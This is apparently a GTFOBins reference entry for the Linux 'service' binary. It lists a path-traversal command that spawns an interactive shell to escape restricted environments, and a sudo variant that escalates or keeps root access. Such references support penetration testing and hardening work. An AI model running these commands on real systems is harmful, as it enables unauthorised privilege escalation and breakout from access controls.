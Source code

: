 # GTFOBin: service

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
/usr/sbin/service ../../bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo service ../../bin/sh
```